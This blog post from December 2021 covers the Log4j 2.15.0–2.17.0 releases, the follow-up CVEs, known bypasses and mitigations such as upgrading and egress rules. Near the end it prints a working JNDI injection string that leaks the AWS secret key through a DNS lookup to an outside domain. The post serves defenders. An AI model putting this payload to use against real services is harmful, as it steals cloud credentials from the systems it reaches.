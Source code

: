 ![log4j-2.15.0](/assets/images/log4j-2.15.0.jpg)

Matthew Warner released a [blog post in Blumira](https://www.blumira.com/analysis-log4shell-local-trigger/) on 16th of December explaining that the fixes in version 2.15.0 are not sufficient. Based on the blog post, fixes introduced in version 2.15.0 can be bypassed by using JavaScript. The introduced attack requires that the vulnerability service is running on a machine used to browse to a website that has malicious JavaScript running that starts to scan local service ports on the victim's machine. When these services are found, the scripts sends the exploit code to the service. This attack can be considered as a watering hole attack. As the vulnerable service would be running on the victim's machine, I don't see this attack vector super serious.

On 13th of December, Apache released Log4j version 2.16.0. This version fixed the issue by disabling the JNDI by default. The version also removers support for Message Lookups. This version was released to fix RCE vulnerability CVE-2021-45046. This vulnerability was found few days after the Log4shell vulnerability was released. Based on the Log4j documentation, the vulnerability affects all Log4j 2.X versions but requires use of non-default configuration (`Pattern Layout` with a `Context Lookup`). [Márcio Almeida claimed on Twitter](https://twitter.com/marcioalm/status/1471740771581652995?s=20) that this is a bypass for Log4shell mitigation introduced in Log4j version 2.15.0. He claimed that `allowedLdapHost` restriction can be bypassed by using localhost and #-character in the LDAP query host. Turned out that the RCE works only when the vulnerable application is running on Unix (at least Mac OS X and FreeBSD) environment. This means that the CVE-2021-45046 can't be considered as bad as Log4shell because it's only considering Unix servers. It's likely that the `allowedClasses` restriction can still be bypassed by using legit class name but at the time of writing this blog post, there's no known way to download the class from remote endpoint (on version 2.15.0).

{{< twitter user="marcioalm" id="1471740771581652995" >}}

Today, on 18th of December, Apache released Log4j version 2.17.0. Based on the release table on Apache's website, it seems that the vulnerability was released in a hurry as the release date is formatted as `2021-MM-dd` (see the screenshot below). Once again, the version fixes a new vulnerability (CVE-2021-45105). In this case the vulnerability allows Denial-of-Service (DoS) on the vulnerable server. DoS vulnerabilities are not considered as severe as RCEs, as the vulnerability allows the attacker to affect only system availability. This vulnerability is similar to CVE-2021-45046 as it also non-default configurations from the system (`Pattern Layout` with a `Context Lookup`).

![U in hurry?](/assets/images/log4j-2.17.0.png)

The best solution to fix Log4shell, is to update Log4j version to the newest available, which was at the time of writing version 2.17.0. Based on the public information available at the moment, the first RCE safe version would be 2.16.0 at the moment.

The issue can also be contained by using default deny outbound, e.q. restricting outbound connections from the server (egress rules). The egress rules contain RCE, but the attack vector can still be used for data exfiltration, if the server can resolve domain names. For example if AWS secret keys are stored as an environment variable, it can be used as a subdomain and if an attacker has access to the name server of the used domain, they can see the query. This kind of attack could be achieved by injecting following string to vulnerable services:

```
${jndi:ldap://${env:AWS_SECRET_ACCESS_KEY}.dfir.fi/log4j}
```

There are also rumors of payloads that work without downloading anything from internet. I will update this blog post, if I come across with working one.
